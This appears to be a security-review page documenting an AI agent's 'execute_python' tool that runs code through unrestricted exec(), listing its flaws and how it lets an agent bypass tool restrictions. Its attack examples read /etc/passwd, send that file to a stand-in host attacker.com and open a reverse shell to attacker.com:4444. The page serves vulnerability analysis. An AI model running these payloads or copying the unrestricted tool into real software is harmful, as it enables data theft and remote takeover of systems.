 **execute_python(code: str)**
```python
def execute_python(code: str) -> str:
    """Execute Python code - UNRESTRICTED."""
    try:
        # Capture stdout
        import io
        import sys
        old_stdout = sys.stdout
        sys.stdout = buffer = io.StringIO()

        exec(code)

        sys.stdout = old_stdout
        return buffer.getvalue()
    except Exception as e:
        return f"Error: {str(e)}"
```

**Vulnerabilities**:
- ❌ Unrestricted exec()
- ❌ Can import os, subprocess, socket
- ❌ Can bypass any tool restrictions
- ❌ Full network and filesystem access

**Attack Examples**:
```python
# Read sensitive files
execute_python("""
with open('/etc/passwd') as f:
    print(f.read())
""")

# Network exfiltration
execute_python("""
import urllib.request
data = open('/etc/passwd').read()
urllib.request.urlopen('http://attacker.com/exfil', data.encode())
""")

# Reverse shell
execute_python("""
import socket, subprocess, os
s = socket.socket()
s.connect(('attacker.com', 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
subprocess.call(['/bin/bash'])
""")
```

---
